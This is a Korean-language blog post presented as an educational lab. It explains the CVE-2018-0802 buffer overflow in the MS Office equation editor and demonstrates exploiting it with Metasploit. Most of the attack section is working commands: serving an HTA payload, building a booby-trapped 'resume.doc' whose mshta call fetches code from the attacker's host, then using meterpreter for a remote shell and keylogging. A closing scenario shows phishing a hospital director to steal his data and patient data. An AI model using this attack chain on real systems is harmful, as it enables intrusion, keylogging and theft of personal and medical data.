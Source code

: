 ```yaml
---
layout: post
title: CVE-2018-0802 MS Office 취약점 실습 (Metasploit)
categories: PoC
tags: [CVE, Metasploit]
---
```

# 목차
1. Disclaimer
1. CVE-2018-0802 취약점 발생 원인 요약
1. PoC
1. 공격 코드 설명
1. 발생 가능한 시나리오
1. References
- - -
  
# 1. Disclaimer
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.<br>
Do not try to attempt to break laws or do any illegal stuff by using this.<br><br>

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.<br>
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
# 2. CVE-2018-0802 취약점 발생 원인 요약
Microsoft Office의 2007, 2010, 2013, 2016 버전에서 발생되는 CVE-2018-0802 취약점은 Office 문서에 수식을 삽입하고 편집할 때 사용하는 컴포넌트인 EQNEDT32.exe에서 발생합니다.

EQNEDT32.exe에서 폰트 레코드명을 처리하는 과정에서 원본과 대상 버퍼의 크기를 체크하지 않는, 공격에 취약한 함수인 strcpy()가 사용되었습니다.

* SUB_41160F() 내부의 strcpy() – CVE-2017-11882 취약점 관련
* SUB_421774() 내부의 SUB_421E39() 에서의 strcpy() – CVE2018-0802 취약점 관련  

MS의 2017년 11월 패치 이후에는 SUB_41160F()함수의 strcpy() 전후 버퍼 크기를 확인하는 코드가 추가되었지만, SUB_421E39() 함수에 대해서는 조치가 취해지지 않았다고 합니다. 오히려 이 업데이트 이후에 SUB_41160F() 함수를 통과해 SUB_421E39()까지 제어가 넘어올 수 있게 되면서 ‘버퍼 오버플로우(Buffer Overflow)’ 공격이 발생될 수 있는 취약점이 존재합니다.
- - -
# PoC
{% include youtube_embed.html id="PDPKtL5SQXM" %}
- - -
# 4. 공격 코드 설명
{% highlight text %}
> use exploit/windows/misc/hta_server
{% endhighlight %}
hta_server 모듈은 .hta 파일이 실행되고 파워쉘을 통해 공격자의 페이로드를 실행시켜주는 해당 .hta파일을 제공합니다.

{% highlight text %}
> set srvhost 192.168.55.32
{% endhighlight %}
활성화되어있는 로컬 호스트의 주소를 적여야 합니다. 저는 가상머신의 칼리 리눅스를 사용했으므로 칼리의 ip를 적어주었습니다.

{% highlight text %}
> exploit
{% endhighlight %}
이 모듈을 이용해 익스플로잇을 하면 공격 페이로드가 삽입된 .hta파일이 생성됩니다. http://공격자의_주소/랜덤문자열.hta 위치에서 호스팅됩니다.

{% highlight text %}
python RTF_11882_0802.py -c "mshta http://192.168.55.32:8080/Fkf0e3JN6.hta" -o resume.doc
{% endhighlight %}
MS Office 수식편집기 취약점인 CVE-2017-11882와 CVE-2018-0802의 뒷번호를 딴 RTF_11882_0802.py 파이썬 코드를 이용해 -c 옵션으로 방금 익스플로잇을 수행해서 생성된 .hta파일을 입력하고, 출력되는 Office 파일의 이름을 -o 옵션에 적어줍니다.

{% highlight text %}
> sessions -i 1
{% endhighlight %}
희생자가 .doc를 열면 세션이 활성화되고, 첫번째로 활성화된 세션과 연결을 맺습니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자의 시스템 정보를 가져옵니다.

{% highlight text %}
meterpreter > shell
{% endhighlight %}
희생자 컴퓨터에서 cmd 명령어를 입력할 수 있습니다.

{% highlight text %}
meterpreter > keyscan_start
{% endhighlight %}
희생자의 키보드 입력을 전달받습니다(키로깅).

{% highlight text %}
meterpreter > keyscan_dump
{% endhighlight %}
keyscan_start 부터 시작한 키로깅을 중단하고 로그 정보를 출력합니다.
- - -
# 5. 발생 가능한 시나리오
해커 A씨는 병원장 B씨의 개인정보와 고객 리스트를 해킹하려는 의도를 갖고 있었습니다. 그래서 사전조사를 통해 해커 A씨가 알아낸 것은, B씨가 운영하는 개인병원에서는 병원 내의 망분리도 되있지 않다는 것과 병원 내에는 Wifi 공유기만을 설치해 병원을 운영하고 있다는 것 이었습니다. 또한 A씨는 B씨의 개인병원 홈페이지 메인화면 아래쪽 footer 부분에 그의 이메일이 적혀있는 것을 발견했습니다.


<center><i>B씨의 개인병원 메인 홈페이지 화면</i></center>

<center><i>병원장 B씨 홈페이지 footer 부분에 적혀있는 이메일 주소</i></center>
(시나리오 예제 사이트는 [여기](http://jayboard.cafe24.com/emerald/index.html){:target="_blank"}에서 확인하실 수 있습니다.)

해커 A씨는 그의 스마트폰에 칼리리눅스를 설치하고, 환자인 척 B씨의 병원에 가서 wifi를 연결했습니다. 해커 A씨는 칼리리눅스의 메타스플로잇을 이용해 악성 데이터가 삽입된 .doc 파일을 제작하고, 병원장 B씨 에게 다음과 같은 이력서를 메일로 보냈습니다 :


<center><i>피싱을 위한 이력서 파일</i></center>
이렇게 A씨는 B씨를 피싱하는데 성공한 후, 미터프리터 세션을 이용해 keyscan을 수행하고, 병원장의 개인정보와 병원 고객의 데이터를 빼내는데 성공했다고 합니다.
- - -
  
# 6. References
* [CVE-2018-0802 Detail](https://nvd.nist.gov/vuln/detail/CVE-2018-0802){:target="_blank"}
* [17년 만에 드러난 취약점의 연쇄 작용](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=27369){:target="_blank"}
* [&#91;Research & Technique&#93; 마이크로소프트 오피스 원격 코드 실행 취약점](http://blog.skinfosec.com/221203066071){:target="_blank"}